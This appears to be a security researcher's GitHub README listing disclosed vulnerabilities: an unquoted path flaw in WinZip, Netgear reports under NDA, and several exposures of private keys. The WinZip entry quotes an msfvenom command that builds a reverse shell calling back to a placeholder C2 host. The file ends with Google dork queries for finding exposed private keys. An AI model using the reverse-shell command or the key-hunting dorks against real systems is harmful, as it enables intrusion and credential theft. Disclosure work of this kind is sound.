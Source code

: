 ## Vulnerability Disclosures:
### Unquoted Path Vulnerability: 3 Reported
1. Corel (Winzip): [https://github.com/ciwen3/Public/blob/master/vuln-report/winzip-Submission.pdf](https://github.com/ciwen3/Public/blob/master/Cyber%20Security/vuln-report/winzip-Submission.pdf)
- Credited: [https://support.corel.com/hc/en-us/articles/217086227](https://web.archive.org/web/20210218194953/https://support.corel.com/hc/en-us/articles/217086227)
- ```This Vulnerability would not compromise the WinZip application. It would however compromise WinZips customer devices. This attack would mostly be used for maintaining persistence or elevating privilege's on an already compromised machine. This is a security issue because no one wants unintended programs to be run by the system. For this vulnerability to work it would require a malicious application named program.exe to be stored in the C:\ folder. Once there, the malicious application could do anything you programmed it to. The easiest way to illustrate this would be a terminal connection to a remote server giving someone else control of the system. For this example I can use MSFVenom to easily make a reverse shell that calls home to my AWS Command and Control server. "msfvenom p windows/shell_reverse_tcp LHOST=[AWS-IP] LPORT=4444 -f exe > Program.exe" Then I can place this executable in C:\ folder. When the WinZip calls an unquoted path that begins with C:\Program Files… it will run the malicious program.exe application and give me the full permissions being used by the WinZip application.```
2. Netgear PSV-2020-0590: Non-Disclosure Agreement 
3. Netgear PSV-2020-0593: Non-Disclosure Agreement 

### Sensitive Data Leak Disclosures: Multiple Reported (lost track of the actual count)
usually found using google dorks and related to .pem .key or api keys

1. Weathernews Inc (wni.co.jp): May 13, 2021 - Sensitive data exposure, found private keys on several publicly accessable (no login required and google searchable) servers.
2. [Redacted]Resorts.com: June 12, 2024 - Sensitive data exposure, found one private key on publicly accessable (no login required and google searchable) servers.
3. [Redacted]Custom.com: June 12, 2024 - Sensitive data exposure, found private keys on publicly accessable (no login required and google searchable) servers.

##### Examples:
- intitle:"index of" "*.cert.pem" | "*.key.pem"
- "BEGIN * PRIVATE KEY" ext:pem | ext:key | ext:txt
